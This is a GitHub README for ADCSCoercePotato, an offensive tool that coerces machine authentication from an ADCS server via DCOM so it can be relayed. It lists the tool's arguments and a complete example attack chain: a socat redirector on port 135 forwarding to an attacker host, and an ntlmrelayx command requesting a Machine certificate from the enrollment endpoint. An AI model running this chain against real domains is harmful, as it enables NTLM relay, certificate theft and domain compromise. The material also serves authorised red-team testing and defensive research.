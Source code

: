 # ADCSCoercePotato
Yet another technique for coercing machine authentication but specific for ADCS server<br>
Full details: https://decoder.cloud/2024/02/26/hello-im-your-adcs-server-and-i-want-to-authenticate-against-you/
```
ADCSCoercePotato
- @decoder_it 2024

Mandatory args:
-m <host or IP> remote DCOM (ADCS) server address
-k <IP> redirector where socat and ntlmrelayx is running


Optional args:
-n <port> HTTP port where redirector (ntlmrelayx) is listening, default:80
-l <port> local socket server port, default:9999
-c <clsid> default:{D99E6E74-FC88-11D0-B498-00A0C90312F3}
-u Domain Username
-p password
-d Domain Name
-s session (it seems not working, idk why)

Example: ADCSCoercePotato.exe -m 192.168.212.22 -k 192.168.1.88 -u myuser -p mypass -d mydomain.domain
         On the Linux box (assuming it has IP:192.168.1.88 and the Windows attacker machine is:192.168.1.89)
         and ADCS web enrollment service is also running on:192.168.212.41
         -> socat tcp -listen:135, reuseaddr, fork tcp:192.168.1.89:9999 &
         -> ntlmrelayx.py -t http://192.168.212.41/certsrv/certrqus.asp --adcs --template Machine -smb2support

```
![изображение](https://github.com/MzHmO/ADCSCoercePotato/assets/92790655/26c44476-215e-4722-ae28-96a52ab5154e)

